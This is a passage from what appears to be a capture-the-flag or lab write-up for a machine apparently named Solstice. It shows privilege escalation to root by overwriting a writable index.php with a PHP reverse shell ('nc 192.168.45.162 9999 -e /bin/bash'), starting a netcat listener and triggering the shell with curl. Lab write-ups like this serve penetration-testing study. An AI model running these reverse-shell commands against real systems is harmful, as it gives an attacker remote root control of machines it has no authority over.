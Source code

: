 ![Image](/assets/images/solstice_indexphp_contents.png)

We can replace the contents of this file with another reverse shell PHP snippet and execute it with curl.

First we insert the snippet and check the contents of `index.php`.
```
echo "<?php system('nc 192.168.45.162 9999 -e /bin/bash')?>" > /var/tmp/sv/index.php
```

![Image](/assets/images/solstice_inexphp_check.png)

Next we start a new nc listener on our attacker machine.
```
nc -lvnp 9999
```

Then we run our `curl` command on the target machine to execute the code.
```
curl 127.0.0.1:57
```

We should now see a new connection to our netcat listener.  Running `whoami` confirms we now have root!

![Image](/assets/images/solstice_root.png)
